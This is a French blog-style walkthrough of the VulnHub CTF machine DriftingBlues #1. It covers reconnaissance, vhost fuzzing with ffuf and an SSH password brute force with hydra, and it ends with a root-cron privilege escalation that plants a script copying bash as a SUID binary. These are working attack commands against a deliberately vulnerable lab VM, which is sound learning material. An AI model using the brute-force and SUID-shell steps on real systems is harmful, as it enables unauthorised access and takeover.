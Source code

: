 ```yaml
---
title: Solution du CTF DriftingBlues #1 de VulnHub
tags: [CTF, VulnHub]
---
```


First of the name
-----------------

[DriftingBlues](https://www.vulnhub.com/entry/driftingblues-1,625/), ici le premier d'une grande lignée de VMs intentionnellement vulnérables dans l'unique but de s'amuser et apprendre, a été conçu par [tasiyanci](https://twitter.com/tasiyanci).  

```
Not shown: 65533 closed tcp ports (reset) 
PORT   STATE SERVICE VERSION 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0) 
| ssh-hostkey:  
|   2048 ca:e6:d1:1f:27:f2:62:98:ef:bf:e4:38:b5:f1:67:77 (RSA) 
|   256 a8:58:99:99:f6:81:c4:c2:b4:da:44:da:9b:f3:b8:9b (ECDSA) 
|_  256 39:5b:55:2a:79:ed:c3:bf:f5:16:fd:bd:61:29:2a:b7 (ED25519) 
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu)) 
|_http-title: Drifting Blues Tech 
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Sur le site web on peut trouver différents noms et adresses emails : *Charles Brown*, *sheryl@driftingblues.box*, *eric@driftingblues.box*.  

On trouve aussi dans la page le commentaire HTML encodé en base64 :  

```html
<!-- L25vdGVmb3JraW5nZmlzaC50eHQ= -->
```

Ce qui se décode en : */noteforkingfish.txt*  

Okaaaaaaaayyyyyyyy
------------------

Le path cité nous amène sur une page remplie de *Ook!*, *Ook?* et autres *Ook.* Connaissant déjà quelques langages de programmation ésotériques j'ai tout de suite saisi la référence mais une recherche google aurait sans doute amené les plus dubitatifs sur une explication.  

Le site *dcode.fr* dispose [d'un interpréteur](https://www.dcode.fr/langage-ook) et l'exécution du script produit l'affichage suivant :  

> my man, i know you are new but you should know how to use host file to reach our secret location. -eric

Voyons un peu les virtual hosts qui retournent une réponse différente de celle par défaut (à savoir ici une taille différente de 7710 octets) :  

```
$ ffuf -w /fuzzdb/discovery/dns/alexaTop1mAXFRcommonSubdomains.txt -u http://192.168.56.6/ -H "Host: FUZZ.driftingblues.box" -fs 7710 

        /'___\  /'___\           /'___\        
       /\ \__/ /\ \__/  __  __  /\ \__/        
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\       
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/       
         \ \_\   \ \_\  \ \____/  \ \_\        
          \/_/    \/_/   \/___/    \/_/        

       v1.3.1 
________________________________________________ 

 :: Method           : GET 
 :: URL              : http://192.168.56.6/ 
 :: Wordlist         : FUZZ: /fuzzdb/discovery/dns/alexaTop1mAXFRcommonSubdomains.txt 
 :: Header           : Host: FUZZ.driftingblues.box 
 :: Follow redirects : false 
 :: Calibration      : false 
 :: Timeout          : 10 
 :: Threads          : 40 
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405 
 :: Filter           : Response size: 7710 
________________________________________________ 

test                    [Status: 200, Size: 24, Words: 1, Lines: 6] 
:: Progress: [50000/50000] :: Job [1/1] :: 2862 req/sec :: Duration: [0:00:42] :: Errors: 0 ::
```

Une fois sur le site on obtient juste le message *work in progress -eric*.  

Après beaucoup d'énumération je trouve sur ce vhost un fichier... *robots.txt*. Comme quoi un simple appel à Nuclei m'aurait fait gagné du temps, à se rappeller lors de la prochaine découverte de vhost.  

Le plus intéressant est une URL interdite qui mentionne un accès SSH :  

```
User-agent: *
Disallow: /ssh_cred.txt
Allow: /never
Allow: /never/gonna
Allow: /never/gonna/give
Allow: /never/gonna/give/up
```

Le message :  

```
we can use ssh password in case of emergency. it was "1mw4ckyyucky".

sheryl once told me that she added a number to the end of the password.

-db
```

C'est toujours un plaisir de résoudre un problème avec une ligne de Python :  

```
$ python3 -c "[print(f'1mw4ckyyucky{i}') for i in range(10)]" > pass.txt
$ hydra -L users.txt -P pass.txt ssh://192.168.56.6
--- snip ---
[22][ssh] host: 192.168.56.6   login: eric   password: 1mw4ckyyucky6
```

Let's root
----------

Ce compte dispose du premier flag mais n'a aucune règle sudo associée. L'outil d'énumération de failles et de mauvaises configurations locales LinPEAS ne retourne rien qui vaille...  

En revanche on peut monitorer les process avec [pspy](https://github.com/DominicBreuker/pspy) et là on a quelque chose de plus intéressant :  

```
2022/01/19 01:25:01 CMD: UID=0    PID=20942  | /usr/bin/zip -r -0 /tmp/backup.zip /var/www/  
2022/01/19 01:25:01 CMD: UID=0    PID=20941  | /bin/sh /var/backups/backup.sh  
2022/01/19 01:25:01 CMD: UID=0    PID=20940  | /bin/sh -c /bin/sh /var/backups/backup.sh  
2022/01/19 01:25:01 CMD: UID=0    PID=20939  | /usr/sbin/CRON -f  
2022/01/19 01:25:01 CMD: UID=0    PID=20944  | sudo /tmp/emergency
```

Le dernier script mentionné est manquant :  

```
eric@driftingblues:~$ file /tmp/emergency 
/tmp/emergency: cannot open `/tmp/emergency' (No such file or directory)
```

Et comme il est dans */tmp* on peut le créer pour y placer par exemple le contenu suivant :  

```bash
#!/bin/bash 
cp /bin/bash /tmp/g0tr00t 
chmod 4755 /tmp/g0tr00t
```

On attend que la tâche CRON s'exécute et on a notre shell :  

```
eric@driftingblues:/tmp$ ./g0tr00t -p 
g0tr00t-4.3# id 
uid=1001(eric) gid=1001(eric) euid=0(root) groups=1001(eric) 
g0tr00t-4.3# cd /root 
g0tr00t-4.3# ls 
root.txt 
g0tr00t-4.3# cat root.txt  
flag 2/2 
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄ 
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄ 
░░░░█░░░░░░░░░░░░░░░░░░░░░░█ 
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█ 
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█ 
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█ 
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█ 
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█ 
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█ 
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█ 
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█ 
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█ 
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█ 
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█ 
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█ 
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀ 
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄ 
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█ 
░░█░░▌░█░░█░░█░░░█░░█░░█ 
░░█░░▀▀░░██░░█░░░█░░█░░█ 
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█ 

congratulations! 
thank you for playing
```

Un CTF du type jeu de pistes mais suffisamment logique pour être agréable.

*Published January 19 2022 at 20:10*
